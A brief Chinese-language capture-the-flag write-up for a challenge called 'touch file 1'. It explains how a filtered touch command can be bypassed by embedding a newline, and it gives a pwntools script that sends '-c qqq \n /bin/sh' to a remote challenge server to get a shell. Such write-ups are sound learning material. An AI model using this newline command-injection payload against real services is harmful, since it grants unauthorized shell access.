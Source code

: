 # touch file 1

## 文件分析

保护全开  
ghidra分析为64位程序

## 逆向

考察命令注入，进入touch后存在字符检查，把大部分字符都ban了，
但是想到平时输命令都是按回车执行的，那么利用换行能不能结束touch命令呢？

给新手提个醒，read函数虽然是按'\n'截断输入的，但是将'\n'包含在payload中发送过去时，
只要不是最后一个字符，就不会被截断

测试一下，成功拿到shell

## EXPLOIT

```python
from pwn import *
sh = remote('43.249.195.138', 20440)
sh.sendline(b'1')

sh.sendline(b'-c qqq \n /bin/sh')

sh.interactive()
```

Done.
